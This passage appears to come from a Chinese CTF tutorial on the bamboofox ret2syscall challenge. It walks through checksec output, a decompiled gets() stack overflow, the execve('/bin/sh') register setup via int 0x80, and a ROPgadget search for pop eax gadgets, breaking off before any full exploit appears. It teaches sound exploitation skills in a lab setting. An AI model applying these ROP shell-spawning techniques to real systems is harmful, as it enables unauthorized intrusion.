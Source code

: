 这里我们以bamboofox中的ret2syscall为例，首先检测程序开启的保护

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序为32位，开启了NX保护。接下来利用IDA来查看源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

可以看出此次仍然是一个栈溢出。类似于之前的做法，我们可以获得v4相对于ebp的偏移为108。所以我们需要覆盖的返回地址相对于v4的偏移为112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得shell，所以我们利用程序中的gadgets来获得shell，而对应的shell获取则是利用系统调用。关于系统调用的知识，请参考

- https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8

简单地说，只要我们把对应获取shell的系统调用的参数放到对应的寄存器中，那么我们在执行int 0x80就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取shell

```C
execve("/bin/sh",NULL,NULL)
```

其中，该程序是32位，所以我们需要使得

- 系统调用号即eax应该为0xb
- 第一个参数即ebx应该指向/bin/sh的地址，其实执行sh的地址也可以
- 第二个参数即ecx应该为0
- 第三个参数edx应该为0

而我们如何控制这些寄存器的值 呢？这里就需要使用gadgets。比如说，现在栈顶是10，那么如果此时执行了pop eax，那么现在eax的值就为10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在gadgets最后使用ret来再次控制程序执行流程的原因。具体寻找gadgets的方法，我们可以使用ropgadgets这个工具。

首先，我们来寻找控制eax的gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```
